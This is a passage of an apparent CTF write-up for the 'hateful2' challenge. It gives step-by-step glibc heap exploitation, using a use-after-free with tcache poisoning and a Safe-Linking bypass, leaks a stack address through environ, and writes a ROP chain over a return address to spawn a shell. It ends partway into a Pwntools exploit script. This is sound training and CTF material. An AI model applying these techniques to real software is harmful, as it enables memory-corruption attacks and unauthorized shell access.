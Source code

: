     * Make use of UAF, editing message E with (at index 4) `((heap_base_addr + 0x6e0) >> 12) ^ (glibc_environ_addr - 0x10)`. Safe-Linking must be considered and 0x10 bytes alignment must be satisfied for `malloc`. At this time, the tcache is "E -> (glibc_environ_addr - 0x10)". The setting of `glibc_environ_addr - 0x10` enables the over-print the stack address in `environ` as a string later.
    * Add a small message F (at index 5) (heap chunk of size 0x20). At this time, the tcache is "glibc_environ_addr - 0x10".
    * Add a small message G (at index 6) (heap chunk of size 0x20) with 0x10 bytes of arbitrary content, stored starting from `glibc_environ_addr - 0x10`, overflowing the prefix 0x10 bytes before `glibc_environ_addr`, which ensures the over-print the stack address in environ as a string later. At this time, the tcache is empty.
    * View the small message G (at index 6) to get a leak of the stack address in `environ` (over-print it out as string).
    * Calculate the return address of `add_message` for ROPping by `stack_addr_in_environ - 0x140`. The offset `0x140` is calculated by `p/x (long)environ - ((long)$rbp + 8)`.
5. In preparation for the second tcache poisoning, add two small messages H (at index 7) and I (at index 8) (heap chunk of size 0x40), and then remove the small message H (at index 7) and message I (at index 8). At this time, the tcache is "I -> H".
6. Perform the second tcache poisoning:
    * Make use of UAF, editing message I (at index 8) with `((heap_base_addr + 0x740) >> 12) ^ (add_message_return_addr - 0x8)`. Safe-Linking must be considered and 0x10 bytes alignment must be satisfied for `malloc`. At this time, the tcache is "I -> (add_message_return_addr - 0x8)".
    * Add a small message J (at index 9) (heap chunk of size 0x40) with arbitrary content. At this time, the tcache is "(add_message_return_addr - 0x8)".
7. Form a simple shell-popping ROP chain and add a small message K (at index 10) (heap chunk of size 0x40) with the content of the ROP chain with a 0x8 bytes of padding prefix (pass saved rbp). In this way, the tcache is empty and the ROP chain will be stored at the return address of `add_message`. When exiting `add_message`, the ROP chain will be hit and a shell will be popped.

The script using Pwntools to solve the challenge is shown below.

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h', '-f']

CHALLENGE = "./hateful2"
p = gdb.debug(['./ld-linux-x86-64.so.2', '--library-path', '.', CHALLENGE], '''
    file hateful2
    ni
    ni
    b *(main+197)
    b *(main+209)      
    b *(main+221)
    b *(main+233)                    
    continue
''')

def add_message(index, size, text):
    print(p.recvuntil(b">> ").decode())
    p.send(b"1\n")
    print(p.recvuntil(b"Message Index: ").decode())
    p.send(str(index).encode() + b"\n")
    print(p.recvuntil(b"Message Size: ").decode())
    p.send(str(size).encode() + b"\n")
    print(p.recvuntil(b">> ").decode())
    p.send(text)
    print(p.recvuntil(b"Message Created!\n").decode())
    log.info(f"Adding message at index: {index} with size: {size} and text: {text}")

def edit_message(index, text):
    print(p.recvuntil(b">> ").decode())
    p.send(b"2\n")
    print(p.recvuntil(b"Message Index: ").decode())
    p.send(str(index).encode() + b"\n")
```